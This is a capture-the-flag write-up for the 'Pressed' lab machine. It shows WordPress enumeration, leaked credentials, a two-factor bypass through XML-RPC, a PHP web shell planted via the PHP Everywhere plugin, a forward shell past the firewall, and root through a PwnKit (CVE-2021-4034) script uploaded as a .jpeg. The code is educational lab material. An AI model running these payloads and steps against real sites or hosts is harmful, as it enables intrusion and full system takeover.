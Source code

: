 # Pressed

This is the write-up for the box Pressed that got retired at the 5th February 2022.
My IP address was 10.10.14.2 while I did this.

Let's put this in our hosts file:
```markdown
10.10.11.142    pressed.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/pressed.nmap 10.10.11.142
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 5.9
|_http-title: UHC Jan Finals &#8211; New Month, New Boxes
```

## Checking HTTP (Port 80)

The webserver hosts a blog with one post and in the HTML source code there are paths that are typical for **WordPress** instances.
Browsing to _wp-admin_ forwards to the login page on the hostname _pressed.htb_ and confirms that observation.

Enumerating **WordPress** with **WPScan**:
```
wpscan --url http://pressed.htb -e ap,u --plugins-detection aggressive
```
```
[i] Config Backup(s) Identified:
[!] http://pressed.htb/wp-config.php.bak
```

It exposes a backup file of _wp-config.php_ which contains credentials for the database:
```
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'admin' );

/** Database password */
define( 'DB_PASSWORD', 'uhc-jan-finals-2021' );
```

This password can be tried on the _wp-login.php_ login form with the user _admin_.
The provided password does not work, but by changing the year to 2022, it is valid and forwards to a page on which it wants to validate an **OTP** on the [Two-Factor Authentication application of miniOrange](https://www.miniorange.com/products/two-factor-authentication-(2fa):

![OTP on WordPress](pressed_web-1.png)

We cannot get through this, but the results of **WPScan** showed, that **XML-RPC** is enabled:
```
[+] XML-RPC seems to be enabled: http://pressed.htb/xmlrpc.php
```

The [XML-RPC WordPress API](https://codex.wordpress.org/XML-RPC_WordPress_API) is a legacy way for services to communicate with WordPress and it is not able to implement MFA.

Listing all methods with `curl`:
```
curl -d '<?xml version="1.0"?> <methodCall> <methodName>system.listMethods</methodName> </methodCall>' http://pressed.htb/xmlrpc.php
```

### Exploiting WordPress XML-RPC

I will use the Python library [python-wordpress-xmlrpc](https://python-wordpress-xmlrpc.readthedocs.io/en/latest/) to interact with the XML-RPC interface:
```
pip3 install python-wordpress-xmlrpc
```

Trying to upload a file:
```python
from wordpress_xmlrpc import Client
from wordpress_xmlrpc.compat import xmlrpc_client
import wordpress_xmlrpc.methods as wp

client = Client('http://pressed.htb/xmlrpc.php', username='admin', password='uhc-jan-finals-2022')

data = {
    'name': 'shell.php',
    'type': 'image/jpeg',
}

with open("shell.php", 'rb') as img:
     data['bits'] = xmlrpc_client.Binary(img.read())

r = client.call(wp.media.UploadFile(data))
```
```
xmlrpc.client.Fault: <Fault 500: 'Could not write file shell.php (Sorry, you are not allowed to upload this file type.).'>
```

Unfortunately it is not possible to upload PHP files with this user.

Checking the contents of the post:
```python
p = client.call(wp.posts.GetPosts())[0]
p.content
```
```
wp:php-everywhere-block/php {"code":"JTNDJTNGcGhwJTIwJTIwZWNobyhmaWxlX2dldF9jb250ZW50cygnJTJGdmFyJTJGd3d3JTJGaHRtbCUyRm91dHB1dC5sb2cnKSklM0IlMjAlM0YlM0U=","version":"3.0.0"}
```

The post uses the [PHP Everywhere plugin](https://wordpress.org/plugins/php-everywhere/) and has PHP code in it.

Base64-decoding the string:
```
echo JTNDJTNGcGhwJTIwJTIwZWNobyhmaWxl(...) | base64 -d
```
```
%3C%3Fphp%20%20echo(file_get_contents('%2Fvar%2Fwww%2Fhtml%2Foutput.log'))%3B%20%3F%3E
```

URL-decoding the result:
```
<?php  echo(file_get_contents('/var/www/html/output.log')); ?>
```

This means a post with **PHP Everywhere** code can be created in it to execute arbitrary PHP code.

Creating PHP reverse shell _(shell.php)_
```
<?php
  system($_REQUEST['cmd']);
?>
```

Base64-encoding _shell.php_
```
base64 shell.php -w 0
```

Creating PHP code to upload a PHP file _(upload.php)_:
```
<?php
  file_put_contents('shell.php', base64_decode('PD9waHAgCnN5c3RlbSgkX1JFUVVFU1RbJ2NtZCddKTsKPz4K'));
  echo("Success");
?>
```

Base64-encoding _upload.php_
```
base64 upload.php -w 0
```

Cloning the post and adding our PHP code:
```python
p.id = 2
p.content = '<!-- wp:paragraph -->\n<>The UHC January Finals are underway!  After this event, there are only three left until the season one finals in which all the previous winners will compete in the Tournament of Champions. This event a total of eight players qualified, seven of which are from Brazil and there is one lone Canadian.  Metrics for this event can be found below.</p>\n<!-- /wp:paragraph -->\n\n<!-- wp:php-everywhere-block/php {"code":"PD9waHAKICBmaWxlX3B1dF9jb250ZW50cygnc2hlbGwucGhwJywgYmFzZTY0X2RlY29kZSgnUEQ5d2FIQWdDbk41YzNSbGJTZ2tYMUpGVVZWRlUxUmJKMk50WkNkZEtUc0tQejRLJykpOwogIGVjaG8oIlN1Y2Nlc3MiKTsKPz4K","version":"3.0.0"} /-->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->'

client.call(wp.posts.NewPost(p))
```

There is a new post on the homepage and after opening it, it will execute the PHP code and create _shell.php_, which can be used for command execution:
```
http://pressed.htb/shell.php?cmd=id
```
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Getting Shell Access

Unfortunately it is not possible to get a reverse shell as there is a firewall rule implemented:
```
POST /shell.php
(...)

cmd=cat /etc/iptables/rules.v4
```
```
:INPUT DROP [0:0]
:FORWARD ACCEPT [0:0]
:OUTPUT DROP [0:0]
-A INPUT -p tcp -m tcp --dport 80 -j ACCEPT
-A INPUT -p icmp -m icmp --icmp-type 8 -j ACCEPT
-A INPUT -i lo -j ACCEPT
-A OUTPUT -p icmp -m icmp --icmp-type 0 -j ACCEPT
-A OUTPUT -p tcp -m state --state RELATED,ESTABLISHED -j ACCEPT
-A OUTPUT -o lo -j ACCEPT
COMMIT
```

It accepts only connections on port 80 and drops every outgoing packet if it is not an established or related connection.
To bypass this, the [Forward-Shell from ippsec](https://github.com/IppSec/forward-shell) can be used after modifying some parts of it:
```python
# MODIFY THIS, URL
self.url = r"http://pressed.htb/shell.php"

# (...)

# MODIFY THIS: Payload in User-Agent because it was used in ShellShock
data = { 'cmd': payload }
        try:
            r = requests.post(self.url, data=data, proxies=proxies, timeout=timeout)
# (...)
```

Executing _forward-shell.py_:
```
python3 forward-shell.py
```

Now we have a pseudo-shell as the user _www-data_.

## Privilege Escalation

Searching for files owned by root and the **Setuid bit** set:
```
find / -perm -4000 -user root -ls | grep -v /var 2>/dev/null
```

The binary _/usr/bin/pkexec_ is especially interesting as it may be vulnerable to the [PwnKit vulnerability](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034).

I will use the bash implementation for [CVE-2021-4034 on GitHub](https://github.com/kimusan/pkwner).

Uploading the _pkwner.sh_ script to the box via **XML-RPC**:
```python
data = {
    'name': 'pkwner.jpeg',
    'type': 'image/jpeg',
}

with open("pkwner.sh", 'rb') as img:
     data['bits'] = xmlrpc_client.Binary(img.read())

r = client.call(wp.media.UploadFile(data))
```

The file will be uploaded to _/var/www/html/wp-content/uploads/2022/12/pkwner.jpeg_ and we can browse there with our **Forward-Shell** to execute it:
```
cd /var/www/html/wp-content/uploads/2022/12/

chmod +x pkwner.jpeg

bash pkwner.jpeg
```

After executing the script, it can be confirmed with the `id` command that privileges got escalated to root!
```
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

